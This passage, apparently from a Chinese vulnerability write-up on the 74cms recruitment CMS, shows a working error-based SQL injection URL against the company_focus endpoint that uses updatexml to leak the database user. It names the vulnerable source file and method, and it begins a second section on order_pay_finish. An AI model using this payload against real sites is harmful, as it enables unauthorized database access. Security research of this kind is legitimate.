 ```
http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a 
```

![image](img/a516a67d077120fb7885f5f4379b173e.png)

看源码

![image](img/6c5177c5cdaf6dfeb08c0dc1d4dbb384.png)

打开文件： 74cms\upload\Application\Common\Model\PersonalFocusCompanyModel.class.php 方法：add_focus(

![image](img/74400050b8e6729c0bbc0fe2e6924d1c.png)

## 0x05 74cms 独有框架漏洞第二处

文件：74cms\upload\Application\Home\Controller\CompanyServiceController.class.php 方法：order_pay_finish( 是否需登录：需要 登录权限：企业用户即可 看源码
